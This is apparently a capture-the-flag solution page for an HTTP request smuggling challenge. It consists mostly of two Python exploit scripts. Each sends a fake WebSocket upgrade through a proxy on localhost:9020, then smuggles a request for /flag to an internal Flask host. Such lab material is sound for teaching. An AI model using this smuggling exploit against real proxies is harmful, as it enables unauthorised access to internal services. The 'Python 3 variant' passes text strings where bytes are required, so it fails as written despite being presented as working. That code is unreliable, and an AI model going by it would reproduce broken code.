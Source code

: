 
<p align="center">
<img width="600" src="../static/solution.png">
</p>

 This one is a more difficult variant of HTTP request smuggling. To access the target API and Page in the hidden network we need to write an Exploit. You can use the one below (with Python2...pain or gain)

  ```python
  import socket 

  req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
  Host: localhost:9020
  Sec-WebSocket-Version: 13
  Upgrade: websocket
  Connection: Upgrade

  """.replace('\n', '\r\n')


  req2 = """GET /flag HTTP/1.1
  Host: flask.net:5000

  """.replace('\n', '\r\n')

  def main(netloc):
      host, port = netloc.split(':')

      sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      sock.connect((host, int(port)))

      sock.sendall(req1)
      data = sock.recv(4096)
      print(data)

      sock.sendall(req2)
      data = sock.recv(4096)
      data = data.decode(errors = 'ignore')

      print(data)

      sock.shutdown(socket.SHUT_RDWR)
      sock.close()

  if __name__ == "__main__":
      main('localhost:9020')
```


<p align="center">
<img width="600" src="../static/haha.gif">
<br> Python 2 ... is not dead yet - anyway was just kidding. <br> The Python 3 variant is below:
</p>

```python
#!/usr/bin/env python3
import socket

req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
Host: localhost:9020
Sec-WebSocket-Version: 13
Upgrade: websocket
Connection: Upgrade

""".replace('\n', '\r\n')


req2 = """GET /flag HTTP/1.1
Host: flask.net:5000

""".replace('\n', '\r\n')

def main(uri):
    host, port = uri.split(':')

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((host, int(port)))

        sock.sendall(req1)
        data = sock.recv(4096)
        print(data)

        sock.sendall(req2)
        data = sock.recv(4096)
        data = data.decode(errors = 'ignore')

        print(data)

        sock.shutdown(socket.SHUT_RDWR)

if __name__ == "__main__":
    main('localhost:9020')
```


